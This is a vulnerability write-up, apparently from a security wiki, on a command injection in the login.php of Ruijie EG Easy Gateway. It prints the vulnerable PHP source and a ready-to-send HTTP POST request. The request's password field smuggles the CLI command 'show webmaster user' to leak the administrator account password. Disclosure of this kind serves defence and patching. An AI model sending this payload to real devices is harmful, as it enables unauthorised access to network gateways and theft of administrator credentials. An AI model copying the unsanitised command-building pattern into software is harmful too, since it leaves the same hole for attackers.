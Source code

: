# Ruijie EG Easy Gateway login.php administrator account password leak vulnerability

## Vulnerability Description

Ruijie EG Easy Gateway login.php has CLI command injection, resulting in a leak of administrator account password

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ruijie EG Easy Gateway</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruijie-25.png)



Vulnerability file login.php



```php
<?php

/**
 * 用户登录处理
 */
define('IN', true);     //定位该文件是入口文件
define('DS', DIRECTORY_SEPARATOR);
define('AROOT', dirname(__FILE__) . DS);

class defaultController {

    function __construct() {
        
    }

    /**
     * 登录处理
     */
    public function indexAction() {
$username = p("username");$password = p("password");$data = [];
$reg='/(\r|\n)+/';
if (count(preg_split($reg, $username)) > 1 || count(preg_split($reg, $password)) > 1) {
$data["status"] = 6;
$data["msg"] = "username or password can't exist '\r\n'";
json_echo($data);
exit();
}
        if ($username == FALSE || $password == FALSE) {
            $data["status"] = 5;
            $data["msg"] = "username or password can't empty";
            json_echo($data);
            exit();
        }
        $res = execCli("exec", "webmaster $username $password");
        if ($res["status"] != 1) {
            json_echo($res);
            exit();
        }
        $isSuccess = trim($res["data"]);
        if ($isSuccess == 0) {    //用户名、账号验证成功
            session_start();
            $_SESSION['username'] = $username;  //记录用户名
            $_SESSION["lasttime"] = time();    //记录登录时间
            $config = @file_get_contents(DS . "data" . DS . "web.config");    //获取web配置信息
            if ($config != false) {
                $config = unserialize($config);
                $_SESSION["timeout"] = isset($config["loginTimeout"]) ? $config["loginTimeout"] * 60 : c("timeout");
            } else {
                $_SESSION["timeout"] = c("timeout");
            }
            setcookie("user", $_SESSION['username']);
        }
        $res["data"] = $isSuccess;
        json_echo($res);
    }

    /**
     * 获取设备信息
     */
    function versionAction() {
        $info = $version = execCli("exec", "show version detail", "");
        $info["data"] = preg_split("/\r*\n/", $info["data"]);
        json_echo($info);
    }

}

include_once(AROOT . "init.php");    //mvc初始化入口，放在底部
```



Key Code Section



```plain
if ($username == FALSE || $password == FALSE) {
            $data["status"] = 5;
            $data["msg"] = "username or password can't empty";
            json_echo($data);
            exit();
        }
        $res = execCli("exec", "webmaster $username $password");
        if ($res["status"] != 1) {
            json_echo($res);
            exit();
        }
        $isSuccess = trim($res["data"]);
```



Send request package, splice CLI command `show webmaster user`



```plain
POST /login.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 49
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

username=admin&password=admin?show+webmaster+user
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruijie-26.png)



Successfully obtained the account password
